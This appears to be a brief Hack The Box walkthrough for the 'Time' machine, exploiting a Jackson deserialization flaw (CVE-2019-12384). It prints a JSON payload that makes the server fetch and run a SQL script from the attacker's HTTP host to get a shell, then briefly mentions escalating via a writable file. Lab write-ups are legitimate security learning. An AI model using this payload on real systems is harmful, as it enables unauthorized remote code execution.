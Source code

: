 ```yaml
---
layout: post
title:  Hack The Box - Time
category: walkthrough
date:   2020-10-25 06:21:00
---
```

# ![time](/assets/img/time/time.png)  
Time is a medium machine created by  [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858) & [felamos](https://www.hackthebox.eu/home/users/profile/27390)   
Opened the ip with firefox  
Eentering "test" with validator(beta) selected it shows the processor -fasterxml/jackson
![browser](/assets/img/time/time2.png)  

### Exploit 
Found ![this](https://github.com/jas502n/CVE-2019-12384) exploit after google  
Changed the file inject.sql
![inject.sql](/assets/img/time/time4.png)  

Opened my python srver, started nc and used this payload to upload inject.sql to the server
>[
>"ch.qos.logback.core.db.DriverManagerConnectionSource", 
>     {
>        "url":
>"jdbc:h2:mem:;TRACE\_LEVEL\_SYSTEM\_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.XX.XX:80/inject.sql'"
>  }
>]
![payload](/assets/img/time/time3.png)  

![server](/assets/img/time/time5.png)  
Got shell as pericles and found a writable file in /bin  
![periclesHome](/assets/img/time/time8.png)  
![timer\_backup](/assets/img/time/time6.png)  
Edited the file to get root's flag  
![editTimer](/assets/img/time/time7.png)  
![flag](/assets/img/time/time9.png)  


